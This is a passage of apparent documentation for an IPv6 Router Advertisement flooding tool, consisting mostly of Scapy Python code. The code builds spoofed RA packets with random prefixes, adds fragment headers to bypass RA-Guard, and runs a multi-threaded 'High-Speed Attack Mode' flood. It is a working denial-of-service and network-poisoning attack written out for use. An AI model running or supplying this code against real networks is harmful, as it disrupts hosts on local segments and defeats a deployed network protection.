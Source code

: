 ```python
        ICMPv6ND_RA(routerlifetime=0) /
        ICMPv6NDOptPrefixInfo(
            prefix=random_prefix + "::",
            prefixlen=64,
            validlifetime=86400,
            preferredlifetime=86400,
            L=1, A=1
        )
    )
    
    # Add fragment header for RA-Guard bypass
    if fragment:
        ipv6_layer = packet[IPv6]
        packet = (
            Ether(dst="33:33:00:00:00:01", src=src_mac) /
            IPv6(src=ipv6_layer.src, dst=ipv6_layer.dst) /
            IPv6ExtHdrFragment(offset=0, m=0, id=random.randint(1, 0xffffffff)) /
            ICMPv6ND_RA(routerlifetime=0) /
            ICMPv6NDOptPrefixInfo(
                prefix=random_prefix + "::",
                prefixlen=64,
                validlifetime=86400,
                preferredlifetime=86400,
                L=1, A=1
            )
        )
    
    # Add random MTU option
    if random_mtu:
        mtu_value = random.randint(1280, 9000)
        packet = packet / ICMPv6NDOptMTU(mtu=mtu_value)
    
    return packet
```

### 5.2 Multi-threading Implementation

#### 5.2.1 High-Speed Attack Mode
```python
def flood_fast(self):
    """Multi-threaded high-speed packet transmission"""
    packets_per_thread = self.count // self.threads
    
    with ThreadPoolExecutor(max_workers=self.threads) as executor:
        futures = []
        for i in range(self.threads):
            future = executor.submit(self.thread_worker, packets_per_thread)
            futures.append(future)
        
        # Monitor progress across all threads
        with tqdm(total=self.count, desc=f"RA flood x{self.threads}") as pbar:
            while not all(f.done() for f in futures):
                time.sleep(0.1)
                pbar.n = sum(f.result() if f.done() else 0 for f in futures)
                pbar.refresh()
```
